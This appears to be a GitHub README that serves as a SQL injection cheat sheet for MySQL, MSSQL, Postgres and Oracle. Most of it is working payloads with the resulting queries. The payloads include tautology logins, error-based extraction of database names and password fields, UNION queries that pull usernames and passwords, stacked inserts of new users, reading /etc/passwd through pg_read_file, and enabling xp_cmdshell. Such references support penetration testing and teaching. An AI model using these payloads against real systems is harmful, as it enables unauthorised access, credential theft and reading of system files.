

# SQL injection
## Table of Contents
- [String Delimiters](#string-delimiters)
- [Closing Out Strings and Functions](#closing-out-strings-and-functions)
- [Return all items in a table](#return-all-items-in-a-table)
- [Error Based SQL Injection](#error-based-sql-injection)
- [Union Based SQL Injection](#union-based-sql-injection)
- [Stacked Queries](#stacked-queries)
- [Reading and Writing Files](#reading-and-writing-files)
- [References](#references)


## 1. String Delimiters
Original SQL
```sql
SELECT * FROM users WHERE username = 'Tostadas'
```

Payload
```sql
' or 1=1;--
```
Result SQL
```sql
SELECT * FROM users WHERE username = '' or 1=1;--'
```

## 2. Closing Out Strings and Functions
Original SQL
```sql
SELECT * FROM users WHERE LOWER(username) = LOWER('Tostadas')
```
Payload
```sql
') or 1=1;--
```
Result SQL
```sql
SELECT * FROM users WHERE LOWER(username) = LOWER('') or 1=1;--')
```

[Return to Table of Contents](#table-of-contents)
## 3. Return all items in the table

Payload Example
```sql
' or 1=1;--
```

[Return to Table of Contents](#table-of-contents)
## 3. Error Based SQL Injection
| DMS/Info | Get version                                                                                                                   | 
|----------|-------------------------------------------------------------------------------------------------------------------------------|
| MSSQL    | `select cast(@@version as integer)`                                                                                           |
| Postgres | `select cast(version() as integer)`                                                                                           |
| MySQL    | `select extractvalue('',concat('>',version()))`                                                                               |
| Oracle   | `to_char(dbms_xmlgen.getxml('select "'\|\| (select substr(banner,0,30) from v$version where rownum=1)\|\|'" from sys.dual'))` |

### 3.1 Mysql
Get list of databases
```sql
select extractvalue('',concat('>',(
                select group_concat(table_schema)
                from (
                         select table_schema from information_schema.tables
                                             where table_schema not in ('information_schema','mysql','performance_schema','sys')
                                             group by table_schema
              )
                as foo)
                )
            );
```
Get password part
```sql
extractvalue('',concat('>',(select substring(password,1,32) from users limit 1 offset 0)))
```
Using substring you can change offset and get next part of password

### 3.2 MSSQL
Get list of databases
```sql
SELECT CAST((
SELECT name, ',' FROM master..sysdatabases
                 where name not in ('master','tempdb','model','msdb')
                 FOR XML path('')) as int)
```
### 3.3 Postgres
Get list of tables
```sql
select cast((
                SELECT string_agg(table_name, ',') value
            FROM information_schema.tables
            WHERE table_schema = 'public'
            group by table_schema
    ) as integer)
```

### 3.4 Other error based payloads
Other error based payloads  https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql 

[Return to Table of Contents](#table-of-contents)

## 4. Union Based SQL Injection
- Number of columns must be the same in the tables

Original sql
```sql
SELECT id, name, author from books where id=?
```
### Mysql
- types of columns can be different in the tables

Payload
```sql
1 UNION ALL SELECT username, password, 1 FROM users
```
Result sql
```sql
SELECT id, name, author from books where id=1 UNION ALL SELECT username, password, 1 FROM users;
```
### Postgres, MSSQL 
- types of columns must be the same

Payload:
```sql
1 UNION ALL SELECT 1, username, password FROM users
```
Result sql
```sql
SELECT id, name, author from books where id=1 UNION ALL SELECT 1, username, password FROM users;
```

## Stacked Queries
- Stacked queries are supported only by Postgres and MSSQL
- The behavior depends on the realisation of the code by developers. Sometimes  you can get result only from first query, sometimes from all, sometimes from the last query.

### Mysql
Mysql returns an error if you try to use stacked queries.
```bash
./main --dbDriver=mysql runQuery "SELECT * FROM users;INSERT into users (username, password) VALUES ('dsadas15', 'password')"
```

```
Error: Error 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'INSERT into users (username, password) VALUES ('dsadas15', 'password')' at line 1
```
### Postgres
- Postgres has limitation. You can only have a single query if you are using parameters in query. https://github.com/lib/pq/issues/928
#### Examples using golang
1. Update data. The example bellow creates a new user and returns all users from the table without just created user.
```bash
./main --dbDriver=postgres runQuery "SELECT * FROM users;INSERT into users (username, password) VALUES ('dsadas12', 'password');"
```
The behavior depends on the postgres driver. I used `github.com/lib/pq` driver.
2. Get data.
```bash
./main --dbDriver=postgres runQuery "SELECT name, author  FROM books where id=1;SELECT username as name, password as author FROM users;"
```


The behavior depends on the realisation of the code by developers.

Function rows.NextResultSet() allows to handle results from the next query. 

The example below handles results from the first query and then from the next, but expected columns for all queries name and author only. 
```go
        rows, err := stdDB.Query(query)
		if err != nil {
			return err
		}
        for {
            for rows.Next() {
                var name, author string
                err = rows.Scan(&name, &author)
                if err != nil {
                    return err
                }
                fmt.Printf("name: %s, author: %s\n", name, author)
            }
            if !rows.NextResultSet() {
                break
            }
        }
```
### MSSQL
#### Examples using golang
1. Update data. The example bellow creates a new user and returns all users from the table without just created user.
```bash
./main --dbDriver=mssql runQuery "SELECT * FROM users;INSERT into users (username, password) VALUES ('dsadas12', 'password');"
```
2. Get data.
```bash
./main --dbDriver=mssql runQuery "SELECT name, author  FROM books where id=1;SELECT username as name, password as author FROM users;"
```


## Reading and Writing Files
### Postgres
#### Reading files
```sql
create table tmp(data text);
copy tmp from '/etc/passwd'; select * from tmp;
```
or
```sql
select pg_read_file('/etc/passwd');
```
#### Writing files
```sql
copy (select * from users) TO  '/tmp/users.txt';
select pg_read_file('/tmp/users.txt');
```

### Mysql
Check availability of `load_file` and `outfile` functions
```sql
SELECT @@GLOBAL.secure_file_priv;
```
- secure_file_priv = NULL - function is not available
- secure_file_priv = /var/lib/mysql-files/ - function is available  in this directory
#### Writing files
```sql
select * from users into outfile '/var/lib/mysql-files/users.txt';
```
#### Reading files

```sql
select load_file('/var/lib/mysql-files/users.txt');
```

### MSSQL
xp_cmdshell is disabled by default.
**In my docker container for mssql xp_cmdshell is not working.** 
Linux version of MSSQL does not support xp_cmdshell.
#### Enable xp_cmdshell
If the database user has the appropriate permissions, we can enable xp_cmdshell:
```sql
-- To allow advanced options to be changed.
EXECUTE sp_configure 'show advanced options', 1;
GO
-- To update the currently configured value for advanced options. RECONFIGURE;
RECONFIGURE;
GO
-- To enable the feature.
EXECUTE sp_configure 'xp_cmdshell', 1;
GO
-- To update the currently configured value for this feature. RECONFIGURE;
RECONFIGURE;
GO
```
#### Reading files
```sql
EXEC xp_cmdshell 'type C:\file.txt'
```
#### Writing files
```sql
EXEC xp_cmdshell 'echo Your Text > C:\file.txt'

```

## References
- (NetSPI 2023 Error based injections) https://sqlwiki.netspi.com/injectionTypes/errorBased/
- (PostgreSQL injection) https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
- (Microsoft, 2021),[https://docs.microsoft.com/en-us/sql/t-sql/language-elements/set-operators-union-transact-sql?view=sql-server-ver15](https://docs.microsoft.com/en-us/sql/t-sql/language-elements/set-operators-union-transact-sql?view=sql-server-ver15)